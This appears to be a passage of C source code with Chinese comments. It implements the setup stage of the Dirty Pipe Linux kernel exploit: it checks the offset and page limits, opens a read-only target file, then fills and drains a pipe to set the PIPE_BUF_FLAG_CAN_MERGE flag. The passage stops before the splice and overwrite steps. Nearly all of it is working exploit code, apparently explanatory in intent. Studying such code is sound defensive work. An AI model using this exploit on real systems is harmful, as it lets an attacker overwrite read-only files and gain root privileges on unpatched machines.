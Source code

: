 ```c
    size_t offset = strtoul(argv[2], NULL, 0);
    const char *const data = argv[3];
    const size_t data_size = strlen(data);

    /* dirty pipe 写入文件不能从第一字节开始，准确的说是每个页的第一字节开始 */
    if (offset % PAGE_SIZE == 0)
    {
        err_exit("Writing at a page boundary is NOT ALLOWED.");
    }

    /* dirty pipe 不能跨页写入文件 */
    const size_t next_page = (offset | (PAGE_SIZE - 1)) + 1; // 计算下一个页面的位置
    const size_t end_offset = offset + (size_t)data_size;    // 计算欲写入的结尾位置
    if (end_offset > next_page)
    {
        err_exit("Writing across a page boundary is NOT ALLOWED.");
    }

    /* 打开文件，检查offset、写入长度等合法性 */
    const int fd = open(path, O_RDONLY);
    if (fd < 0)
    {
        error("Failed to open the TARGET file: %s.", path);
        exit(0);
    }

    struct stat st;
    if (fstat(fd, &st))
    {
        err_exit("Failed to fstat.");
    }
    if (offset > st.st_size)
    {
        error("Offset %d larger than the file size is NOT ALLOWED.");
        exit(0);
    }
    if (end_offset > st.st_size)
    {
        error("CANNOT enlarge the TARGET file.");
    }

    /* 建立管道 */
    if (pipe(pipe_fd) < 0)
    {
        err_exit("Failed to create pipe.");
    }

    // 通过 fcntl 查看管道的大小
    const unsigned int pipe_size = fcntl(pipe_fd[1], F_GETPIPE_SZ);
    static char buffer[0x1000];


    // 写管道，将管道填满，从而设置PIPE_BUF_FLAG_CAN_MERGE标志
    unsigned int r = pipe_size;
    while (r > 0)
    {
        unsigned int n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(pipe_fd[1], buffer, n);
        r -= n;
    }

    // 通过读来清空管道
    r = pipe_size;
```